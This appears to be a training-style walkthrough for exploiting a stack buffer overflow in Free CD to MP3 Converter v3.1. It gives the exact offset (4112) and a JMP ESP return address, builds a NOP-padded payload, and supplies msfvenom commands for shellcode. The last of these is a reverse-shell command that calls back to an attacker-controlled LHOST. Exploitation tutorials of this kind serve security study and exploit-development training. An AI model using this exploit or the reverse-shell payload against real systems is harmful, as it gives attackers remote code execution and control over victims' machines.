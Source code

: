 # Stack Based Buffer Overflow 
##  Exploiting Free CD to MP3 Converter v3.1

> Creating a shellcode and jumping to it so we can have full control

### Generating a payload

`msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'`

windows/exec: 32 bit payload 
CMD='': What we want to execute
-f: Format/language we want the output in 
-b: Bad characters 

### Final Payload

1. Buffer to fill out memory before EIP b"A" * offset
2. EIP: 4 bytes as our return address -> Gotten from `8 Finding Return Instruction`
3. buf: Our shellcode

To convert JMP ESP from `hex` to an address in Little Endian, we'll use a python function called `pack` found in the `struct` library

```
	offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00457418)
    buf = "" # shellcode
```

### Shellcode Padding

Due to the salignemnt and the programs stack frame, the start of our shellcode might get skipped, in order to prevent that we can add junk padding -  `NOP Bytes`.

```
	nop = b"\x90"*32
    payload = buffer + eip + nop + buf

```



### Gaining code exec

To gain code execution change either from the above options 

1. Change payload to CMD= cmd.exe (privesc)
2. Change the msfvenom buf payload (rev shell)

	`msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python' -b "\x00\x0A\x0D"` 
